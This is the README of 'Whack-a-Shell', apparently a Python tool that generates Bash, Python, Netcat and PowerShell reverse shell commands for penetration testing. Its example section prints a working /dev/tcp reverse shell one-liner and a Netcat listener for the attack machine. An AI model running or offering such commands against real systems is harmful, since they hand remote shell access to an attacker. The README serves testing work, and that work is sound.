 
## Reverse Shell Generator

A Python tool for dynamically generating reverse shell commands for both Windows and Linux systems. This tool supports multiple shell types and provides easy-to-use prompts with built-in IP address and port validation.

## Features

- Cross-platform support: Generates reverse shell commands for both Windows and Linux systems.
- Multiple reverse shell types: Includes Bash, Python, Netcat for Linux, and PowerShell, Netcat for Windows.
- User-friendly interface: Simple prompts for user input and shell selection.
- Error handling: Validates IP address and port input, handling incorrect entries gracefully.

## Requirements

- **Python 3.x**
- `colorama` library for colored terminal output
- `ipaddress` library for IP validation (built into Python 3)
- Your custom `reverse_shells.py` file that contains `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator`.

### Install dependencies

Run the following command to install `colorama`:

```bash
pip install colorama
```

## How to Run

1. Clone or download this repository to your local machine.
2. Ensure the `reverse_shells.py` file is in the same directory as the main script.
3. Run the Python script:

```bash
python3 Whack-a-Shell.py
```

## Usage

1. Select the target operating system (Windows or Linux) when prompted.
2. Enter a valid IP address and port number.
3. Choose from the available reverse shell types based on your OS selection.
4. The generated reverse shell command will be displayed, along with the command to set up a Netcat listener on the attack machine.

## Example

```
Please select the OS for the reverse shell:
Enter 1 for Windows
Enter 2 for Linux
Choice: 2

You have selected Linux for the reverse shell.

Enter the IP address: 192.168.1.10
Enter the port number: 4444

Please choose the shell program

Enter 1 for Bash Reverse Shell
Enter 2 for Python Reverse Shell
Enter 3 for Netcat Reverse Shell
Choice: 1

Here is your reverse shell: sh -i >& /dev/tcp/192.168.1.10/4444 0>&1

Run this command on the attack machine to set up a listener: nc -nvlp 4444
```

## Error Handling

- **Invalid IP Address**: The program will prompt for a valid IP address if the input is not a valid IPv4 format.
- **Invalid Port**: The port number must be between 1 and 65535. If the input is outside this range or is not a number, the program will prompt for a valid port.

## Customization

You can easily extend this tool by adding more reverse shell options to the `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator` classes in the `reverse_shells.py` file.

## License
This project is licensed under the MIT License. See the LICENSE file for details.

